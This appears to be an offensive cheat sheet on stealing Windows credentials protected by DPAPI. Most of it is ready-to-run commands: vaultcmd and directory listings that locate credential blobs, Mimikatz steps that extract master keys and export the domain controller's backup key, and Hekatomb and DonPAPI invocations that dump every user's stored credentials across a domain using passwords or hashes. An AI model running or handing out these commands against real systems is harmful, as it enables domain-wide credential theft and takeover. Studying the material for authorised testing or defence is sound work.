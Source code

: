 # Windows - DPAPI

> On Windows, credentials saved in the Windows Credentials Manager are encrypted using Microsoft's Data Protection API and stored as "blob" files in user AppData folder.

## Summary

* [Data Protection API](#data-protection-api)
    * [List Credential Files](#list-credential-files)
    * [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
    * [Hekatomb - Steal all credentials on domain](#hekatomb---steal-all-credentials-on-domain)
    * [DonPAPI - Dumping DPAPI credz remotely](#donpapi---dumping-dpapi-credz-remotely)


## Data Protection API

* Outside of a domain: the user's `password hash` is used to encrypt these "blobs".
* Inside a domain: the `domain controller's master key` is used to encrypt these blobs.

With the extracted private key of the domain controller, it is possible to decrypt all the blobs, and therefore to recover all the secrets recorded in the Windows identification manager of all the work  
stations in the domain.

```ps1
vaultcmd /list

VaultCmd /listcreds:<namevault>|<guidvault> /all
vaultcmd /listcreds:"Windows Credentials" /all
```

### List Credential Files

```ps1
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\

Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```


### Mimikatz - Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0
# find master key
mimikatz !sekurlsa::dpapi
# use master key
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b

# find and export backup keys
lsadump::backupkeys /system:dc01.lab.local /export
# use backup keys
dpapi::masterkey /in:"C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

### Hekatomb - Steal all credentials on domain

> [Processus-Thief/Hekatomb](https://github.com/Processus-Thief/HEKATOMB) is a python script that connects to LDAP directory to retrieve all computers and users informations. Then it will download all DPAPI blob of all users from all computers. Finally, it will extract domain controller private key through RPC uses it to decrypt all credentials.

```python
pip3 install hekatomb
hekatomb -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp
```

![Data in memory](https://github.com/Processus-Thief/HEKATOMB/raw/main/.assets/github1.png)

### DonPAPI - Dumping DPAPI credz remotely

* [login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)

```ps1
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target

# using domain backup key
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list
```

## References

* [DPAPI - Extracting Passwords - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)
* [DON PAPI, OU L’ART D’ALLER PLUS LOIN QUE LE DOMAIN ADMIN - LoginSecurité - CORTO GUEGUEN - 4 MARS 2022](https://www.login-securite.com/2022/03/04/don-papi-ou-lart-daller-plus-loin-que-le-avec-dpapi/)